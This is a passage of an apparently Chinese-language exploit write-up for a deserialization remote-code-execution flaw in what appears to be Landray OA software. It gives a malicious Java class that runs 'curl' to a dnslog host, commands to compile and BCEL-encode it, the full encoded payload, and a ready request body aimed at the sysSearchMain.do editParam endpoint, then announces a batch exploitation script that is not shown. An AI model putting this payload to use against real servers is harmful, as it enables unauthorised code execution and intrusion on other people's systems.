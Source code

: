 ```java
<java>
<void class="com.sun.org.apache.bcel.internal.util.ClassLoader">
	<void method="loadClass">
		<string>$$BCEL$$......</string>
		<void method="newInstance"></void>
	</void>
</void>
</java>
```

&emsp;&emsp;我们首先编写一个恶意类：

```Java
import java.io.IOException;

public class exp {
	static {
		try {
			Runtime.getRuntime().exec("curl xxx.dnslog.cn");
}
		catch (IOException e){
			e.printStackTrace();}
}
}
```

&emsp;&emsp;对类进行编译：

```javac exp.java -source 1.7 -target 1.7```

![](./attachment/2022-01-11/lanling4.png)

&emsp;&emsp;最后对编译好的进行BCEL编码（工具地址在https://github.com/Xd-tl/BCELCode）：

```java -jar BCELCode.jar -e exp.class```

```$$BCEL$$$l$8b$I$A$A$A$A$A$A$ffePMO$c2$40$Q$7d$5b$3eZj$R$u$82$df$8a$t$81$D$i$3cB$bc$YM$8c$uF$88$9e$cb$ba$n$c5$d26$a55$fdG$9e$b9$a0$f1$e0$P$f0G$Z$a7$h$82$q$eeaf$e7$ed$7bov$e6$fb$e7$f3$L$c0$Zj$3a$U$a4T$a4$Nd$90e$uN$acW$ab$edX$ee$b8$dd$lM$E$P$Z$b2$5d$db$b5$c3s$86T$bd$f1$a8CCN$85n$60$D$GC$e9$8f$fe$Q$b9$a1$3d$V$M$faX$84$ab$a2Ro$f4$feq$3a$g6$ZL$k$FN$z$8e$e3$d6$b3$3bs$bcq$8b$bb$89$7b$d1$40$J$sCZ$c4$823$9c$d6$d7$f4$830$b0$ddqg$dd$f2$3e$f0$b8$98$cd$3a$w$b6$Y$ca$S$b7$bd$f6u$ff2$e6$c2$Pm$8f$3c$cb$a8$g$d8N$a6$x$f8$a4$P$H$a1$c5_$86$81$c5$85$8a$5d$gK$c4$3e$b5$bb$f0$9e$e9$bf$85$9e$ed$8a$bbh$3a$S$c1$d0$g9$84h$5d$ee$y$X$90$97$ca$5b$cb_$3e$e9$D$_$K$b8$b8$b2$r$8flZI$7f$9c$60$87$96$9a$i$F$yY$x$c5$3d$aa$O$v3$ca$99$e6$3b$d8$9c$$$M$fb$U$b3$SL$d1$e8$H$xj_J$B$f3$D$aa$99_$a0$f0$f4$G$ed$a6$b9$40e$$$f1$i$M$gK$91$fa$w$b5H$5cr$S$d5$90$a7$5c$82N$ed$A$VJOE9M$a2$p$f9$9f$e3_$3fk$C$f0$fa$B$A$A```

&emsp;&emsp;最后构造请求body为：

```
var={"body":{"file":"/sys/search/sys_search_main/sysSearchMain.do?method=editParam"}}&fdParemNames=11&fdParameters=<java><void class="com.sun.org.apache.bcel.internal.util.ClassLoader"><void method="loadClass"><string>$$BCEL$$$l$8b$I$A$A$A$A$A$A$ffePMO$c2$40$Q$7d$5b$3eZj$R$u$82$df$8a$t$81$D$i$3cB$bc$YM$8c$uF$88$9e$cb$ba$n$c5$d26$a55$fdG$9e$b9$a0$f1$e0$P$f0G$Z$a7$h$82$q$eeaf$e7$ed$7bov$e6$fb$e7$f3$L$c0$Zj$3a$U$a4T$a4$Nd$90e$uN$acW$ab$edX$ee$b8$dd$lM$E$P$Z$b2$5d$db$b5$c3s$86T$bd$f1$a8CCN$85n$60$D$GC$e9$8f$fe$Q$b9$a1$3d$V$M$faX$84$ab$a2Ro$f4$feq$3a$g6$ZL$k$FN$z$8e$e3$d6$b3$3bs$bcq$8b$bb$89$7b$d1$40$J$sCZ$c4$823$9c$d6$d7$f4$830$b0$ddqg$dd$f2$3e$f0$b8$98$cd$3a$w$b6$Y$ca$S$b7$bd$f6u$ff2$e6$c2$Pm$8f$3c$cb$a8$g$d8N$a6$x$f8$a4$P$H$a1$c5_$86$81$c5$85$8a$5d$gK$c4$3e$b5$bb$f0$9e$e9$bf$85$9e$ed$8a$bbh$3a$S$c1$d0$g9$84h$5d$ee$y$X$90$97$ca$5b$cb_$3e$e9$D$_$K$b8$b8$b2$r$8flZI$7f$9c$60$87$96$9a$i$F$yY$x$c5$3d$aa$O$v3$ca$99$e6$3b$d8$9c$$$M$fb$U$b3$SL$d1$e8$H$xj_J$B$f3$D$aa$99_$a0$f0$f4$G$ed$a6$b9$40e$$$f1$i$M$gK$91$fa$w$b5H$5cr$S$d5$90$a7$5c$82N$ed$A$VJOE9M$a2$p$f9$9f$e3_$3fk$C$f0$fa$B$A$A</string><void method="newInstance"></void></void></void></java>
```

&emsp;&emsp;dnslog成功接收到请求。

结果图：

![](./attachment/2022-01-11/lanling5.png)

![](./attachment/2022-01-11/lanling6.png)



最后放上批量利用脚本：
```